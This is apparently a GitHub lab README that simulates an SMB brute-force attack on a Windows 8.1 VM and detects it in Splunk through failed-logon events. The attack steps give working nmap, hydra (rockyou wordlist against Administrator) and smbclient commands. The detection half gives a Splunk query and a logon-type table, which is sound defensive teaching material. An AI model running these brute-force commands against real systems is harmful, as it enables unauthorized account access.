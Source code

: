# Brute Force Detection (Windows 8 + Splunk)

This lab simulates a brute-force attack on a Windows 8.1 VM using the SMB protocol and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1110: Brute Force
- T1078: Valid Accounts

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `hydra`: for brute-force attack
- `smbclient`: for SMB access attempts
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

### 1. Scan the target for open ports (RDP/SMB) (Kali)
```bash
nmap -sV -O -p- 192.168.29.236
```
![Description for image 1](../Screenshots/BF-img1.png) 

### 2. SMB Brute Force via Hydra (Kali)
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236
```
or 
```bash
hydra -l Futwear -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236 
```
![Description for image 1](../Screenshots/BF-img2.png) 

### 3. Login to smb with valid credentials (Kali)
**checks available shares**
```bash
smbclient -L //192.168.29.236 -U Futwear
```

![Description for image 1](../Screenshots/BF-img3.png) 

**To access and login to the smb shares**
```bash
smbclient -U Futwear //192.168.29.236/IPC$ -m SMB2
```
![Description for image 1](../Screenshots/BF-img4.png) 

### 4. Investigate in Splunk

**Event code - 4625 : Failed logon**
**Event code - 4624 : Successfull logon**

Set the time frame to **last 15 mins / last 60 mins:**
   ```spl
   index=main EventCode=4625 | stats count by Account_Name, Logon_Type, Failure_Reason
   ```

![Description for image 1](../Screenshots/BF-img5.png)

### 🔐 Logon Type Interpretation

| Logon Type | Meaning                  | Brute-force Likely? |
|------------|--------------------------|----------------------|
| 2          | Interactive (local login) | ❌ No (local)         |
| 3          | Network (SMB, remote share) | ✅ Yes               |
| 10         | RemoteInteractive (RDP)  | ✅ Yes                |
| 7          | Unlock                   | ❌ No                 |

> 📌 **Tip**: If you see many Logon Type `3` or `10` failures, that's a clear sign of a brute-force attack.

